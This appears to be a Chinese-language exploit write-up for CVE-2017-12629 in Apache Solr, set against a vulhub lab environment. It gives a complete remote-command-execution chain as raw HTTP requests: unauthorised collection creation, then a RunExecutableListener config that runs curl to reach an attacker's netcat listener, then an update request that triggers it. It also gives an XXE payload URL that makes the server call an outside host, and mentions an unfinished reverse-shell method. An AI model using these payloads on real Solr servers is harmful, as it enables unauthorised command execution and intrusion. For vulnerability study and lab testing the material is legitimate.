



CVE-2017-12629利用的一些说明
--

### 说明

这个漏洞需要在分布式安装的情况下才能完整利用，但是我看到vulhub上的环境，他不是分布式搭建的solr,依然可以利用，我猜测大概是因为测试环境，我们事先是知道core的名字或者collection名字的，所以在大家使用vulhub上solr的漏洞环境，依然可以成功执行命令，但是在真实的环境中我们可能不知道core或者collection的名字，所以这个时候如果目标搭建的一个分布式solr,我们不知道现有的core或者collection名也没有关系，因为，分布式solr允许我们未授权创建一个collection。这就为后续的漏洞利用提供了条件。

### RCE利用流程

上面也提到了，vulhub上的漏洞环境是定制的，我们是提前知道core名的，所以那个攻击链是不完整的，我们这里，所以我这里贴出完整的攻击链

引用exp-db上的

- Step 1. Create a new collection:

`http://localhost:8983/solr/admin/collections?action=CREATE&name=newcollection&numShards=2`



- Step 2. Set up a listener on any port by using netcat command "nc -lv 4444"

- Step 3. Add a new RunExecutableListener listener for the collection where "exe" attribute contents the name of running command ("/usr/bin/curl") and "args" attribute contents "http://localhost:4444/executed" value to make a request to the attacker's netcat listener:

```
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://localhost:4444/executed"]
  }
}
```


- Step 4. Update "newcollection" to trigger execution of RunExecutableListener: 
  
```
POST /solr/newcollection/update HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 19

[{"id":"test"}]
```


- Step 5. You will see a request from the Solr server on your netcat listener. It proves that the curl command is executed on the server.


以上就是一个完整的命令执行流程

poc:apache_solr_cmd_exec_cve201712629

### XXE 利用流程

xxe的利用是不需要分布式的solr的，可利用性更大，payload(注意下面的axina应该替换为目标机上已有的core名，可以通过访问/solr/admin/cores查看):

`http://127.0.0.1:8983/solr/axina/select?q={!xmlparser%20v=%27%3C!DOCTYPE%20a%20SYSTEM%20%22http://127.0.0.1:8000/test%22%3E%3Ca%3E%3C/a%3E%27}`

我本地的webserver收到了请求：


说明漏洞成功触发

### 参数注入的方式利用漏洞


### 参考

环境搭建及利用参考：https://blog.csdn.net/qq_33020901/article/details/79131870

漏洞分析参考：https://paper.seebug.org/425/

### 注

反弹shell利用方式，还没有完善，留个坑